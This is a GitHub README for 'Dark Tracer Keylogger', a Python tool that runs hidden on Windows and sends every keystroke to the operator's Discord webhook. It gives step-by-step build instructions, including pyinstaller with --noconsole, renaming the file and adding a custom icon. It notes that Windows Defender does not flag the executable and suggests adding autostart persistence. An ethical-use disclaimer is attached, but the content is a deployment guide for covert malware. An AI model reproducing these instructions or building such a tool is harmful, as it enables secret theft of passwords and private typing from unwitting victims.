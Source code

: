# Dark Tracer Keylogger
### *An advanced keylogger 100% Python*

![photo_2024-12-07_15-24-05](https://github.com/user-attachments/assets/ebe8a9d1-b2da-4935-81b0-d79ad6244e36)

# ⚠️ Disclaimer
This tool is released exclusively for:

- *Professional Penetration Testers*
- *Red Team Operators*
- *Security Researchers*
- *Certified Ethical Hackers*
- *Authorized Security Exercises*

***Like all security testing tools, Dark Tracer must only be used on systems and networks for which you have explicit written authorization. Improper use of this tool may violate local and international laws.***

# How it works
After creating the executable file (*.exe*) using *pyinstaller*, once you launch the file on a Windows machine, **the keylogger will work hidden, sending everything is typed with the keyboard to your** ***Discord Webhook.***

![image](https://github.com/user-attachments/assets/c972f6c7-9ed0-4a94-b539-3b2be94c019b)


# How to use it
- For the tool to function correctly it is necessary to install the *pynput* module:
```bash
pip install pynput
```
- Download the tool:
```bash
git clone https://github.com/Uriel-SG/DarkTracerKeylogger.git
```
- Edit the python code inserting your Discord Webhook:
```python
# URL del webhook Discord
WEBHOOK_URL = "https://discord.com/api/webhooks/YOUR-WEBHOOK-HERE"
```
- If you want, you can change the filename from dark_tracer.py to *whatever-you-want.py*;
- If you don't have it yet, install *pyinstaller*:
```bash
pip install pyinstaller
```
- Create your .exe file using *pyinstaller*:
```bash
pyinstaller --onefile --noconsole --hidden-import=pynput YOUR-FILE.py
```
(if you want you can add an icon adding *"--icon YOUR_ICO.ico"*)

- In the "dist" folder created you'll find the *.exe* file ready: ***just start it***.

# 🧑‍💻 How to stop the process 
Simply open Windows Task Manager, locate the process, and end the task.

# 🔥 Future Improvements
To improve the project, the ideal would be to ensure that the executable file, once started, makes a copy of itself in the Windows "autostart" folder, so that the keylogger starts at every startup.

# 🛡️ Antivirus?
As you can see in the video, my ***Windows Defender doesn't detect the .exe file as a threat***. **Let me know!**

# Video Sample
[![Whatch the video](https://github.com/user-attachments/assets/da6c1213-5811-4b1b-9704-41d3d00cde68)](https://www.youtube.com/watch?v=Dea0IKQOwkI)
